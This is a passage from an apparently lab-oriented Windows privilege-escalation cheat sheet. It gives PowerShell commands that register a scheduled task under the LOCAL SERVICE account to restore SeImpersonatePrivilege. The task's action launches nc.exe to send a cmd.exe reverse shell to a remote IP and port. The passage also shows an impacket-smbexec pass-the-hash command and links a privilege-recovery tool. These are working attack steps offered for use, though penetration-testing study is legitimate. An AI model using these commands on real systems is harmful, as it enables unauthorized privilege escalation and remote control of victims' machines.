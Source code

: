 creating a `ScheduledTaskPrincipal` where we can specify `SeImpersonatePrivilege` in `RequiredPrivilege` attribute.

```
# Create a list of privileges
PS C:\Windows\system32> [System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseWorkingSetPrivilege"

# Create a Principal for the task 
PS C:\Windows\system32> $TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs

# Create an action for the task 
PS C:\Windows\system32> $TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.118.23 4444 -e cmd.exe`""

# Create the task
PS C:\Windows\system32> Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms" -Principal $TaskPrincipal

TaskPath                                       TaskName                          State     
--------                                       --------                          -----     
\                                              GrantAllPerms                     Ready     

# Start the task
PS C:\Windows\system32> Start-ScheduledTask -TaskName "GrantAllPerms"
```

or you can you the tool https://github.com/itm4n/FullPowers

### shells

```
impacket-smbexec <domain>/<username>@<target_ip> -hashes <LM_Hash>:<NT_Hash>
```

### PATH

add to path
```
set PATH=%PATH%;C:\Windows\System32
```